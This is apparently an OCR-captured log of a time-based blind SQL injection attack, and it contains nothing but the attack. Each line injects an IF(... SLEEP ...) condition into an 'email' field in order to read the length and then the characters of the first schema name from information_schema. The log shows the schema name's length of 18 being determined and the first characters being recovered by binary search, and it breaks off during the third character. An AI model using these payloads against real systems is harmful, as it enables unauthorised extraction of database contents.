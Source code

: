 {email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 0,1 )=18,SLEEP(0.122010510204),SLEEP(0)) -- -}

Field length: 18


Determinating values of field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=106,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>106,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=105,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}